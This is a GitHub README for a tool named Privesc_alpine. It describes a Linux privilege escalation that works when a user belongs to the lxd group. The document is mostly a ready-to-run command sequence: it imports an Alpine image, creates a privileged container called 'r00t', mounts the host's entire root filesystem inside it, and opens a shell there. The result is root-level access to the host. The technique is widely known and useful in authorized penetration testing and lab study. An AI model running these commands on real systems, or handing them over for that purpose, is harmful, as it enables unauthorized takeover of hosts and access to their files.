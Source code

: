 # Privesc_alpine
This alpine for linux privesc. Its works when the user is part of lxd group.

# Usage:
```
unzip alpine.zip
lxd init 
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
lxc init alpine r00t -c security.privileged=true
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
lxc start r00t
lxc exec r00t /bin/sh
```
![image](https://github.com/H3EXX/Privesc_alpine/assets/111686217/6d54849c-d9da-4897-a768-41e2507f73eb)

![image](https://github.com/H3EXX/Privesc_alpine/assets/111686217/17de3d80-c70d-43b5-be91-8217260d61d7)


